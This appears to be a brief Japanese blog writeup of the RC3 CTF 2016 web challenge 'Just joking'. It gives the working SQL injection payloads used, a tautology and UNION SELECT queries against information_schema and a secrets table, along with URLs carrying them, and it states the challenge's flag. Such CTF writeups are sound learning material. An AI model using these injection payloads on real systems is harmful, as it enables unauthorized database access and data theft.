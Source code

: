 ```yaml
---
layout: post
alias: "/blog/2016/11/21/rc3-ctf-2016-just-joking/"
date: "2016-11-21T17:47:17+09:00"
title: "RC3 CTF 2016: \"Just joking,\" Joker joked!"
tags: [ "ctf", "writeup", "rc3-ctf", "web", "sql-injection", "guessing" ]
---
```


`' or 1 = 1 -- `で確認できる自明sqliがある。
そのまま`' union select table_schema, table_name, column_name from information_schema.columns -- `とするとDBの中身が見える。後はたくさんあるtableを端から順に見ていって探す。

`flag.welcome`に`pcbfcppgle`とありcaesarしたら`redherring`になるが、これははずれ。
`CCNs.secrets`にあるmd5っぽい文字列をdecryptorに投げると`RC3-2016-HAHAHAHA`が登録されていて、これがflag。
まったく同じinjectionができるDBがふたつあったが、理由は不明のまま。後の問題用か。

-   <https://ctf.rc3.club:2010/connect.php?primary=%27+union+select+table_schema%2C+table_name%2C+column_name+from+information_schema.columns+--+>
-   <https://ctf.rc3.club:2010/connect.php?primary=%27+union+select+*+from+CCNs.secrets+--+>
